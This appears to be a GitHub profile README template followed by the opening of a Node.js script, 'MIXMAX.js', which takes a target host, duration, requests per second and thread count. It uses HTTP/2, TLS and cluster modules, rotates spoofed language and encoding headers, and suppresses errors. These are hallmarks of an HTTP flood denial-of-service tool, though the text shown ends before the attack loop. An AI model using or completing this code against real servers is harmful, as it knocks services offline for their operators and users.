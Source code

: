 - 👋 Hi, I’m Rara
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...


const net = require("net");
const http2 = require("http2");
const tls = require("tls");
const cluster = require("cluster");
const url = require("url");
const crypto = require("crypto");
const fs = require("fs");

lang_header = ['pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7', 'es-ES,es;q=0.9,gl;q=0.8,ca;q=0.7', 'ja-JP,ja;q=0.9,en-US;q=0.8,en;q=0.7', 'ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7', 'ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7', 'zh-TW,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6', 'nl-NL,nl;q=0.9,en-US;q=0.8,en;q=0.7', 'fi-FI,fi;q=0.9,en-US;q=0.8,en;q=0.7', 'sv-SE,sv;q=0.9,en-US;q=0.8,en;q=0.7',   'he-IL,he;q=0.9,en-US;q=0.8,en;q=0.7',
'fr-CH, fr;q=0.9, en;q=0.8, de;q=0.7, *;q=0.5', 'en-US,en;q=0.5', 'en-US,en;q=0.9', 'de-CH;q=0.7', 'da, en-gb;q=0.8, en;q=0.7', 'tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7',],
encoding_header = [
'gzip, deflate, br',
'compress, gzip',
'deflate, gzip',
'gzip, identity',
'*'
]


process.setMaxListeners(0);
require("events").EventEmitter.defaultMaxListeners = 0;

process.setMaxListeners(0);
require("events").EventEmitter.defaultMaxListeners = 0;
process.on('uncaughtException', function (exception) {
 });

if (process.argv.length < 5){console.log(`[!] node MIXMAX.js <HOST> <TIME> <RPS> <THREADS>.`); process.exit();}
 function readLines(filePath) {
    return fs.readFileSync(filePath, "utf-8").toString().split(/\r?\n/);
}

function randomIntn(min, max) {
    return Math.floor(Math.random() * (max - min) + min);
}

function randomElement(elements) {
    return elements[randomIntn(0, elements.length)];
} 

function randstr(length) {
  const characters =
    "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
  let result = "";
  const charactersLength = characters.length;
  for (let i = 0; i < length; i++) {
    result += characters.charAt(Math.floor(Math.random() * charactersLength));
  }
  return result;
}
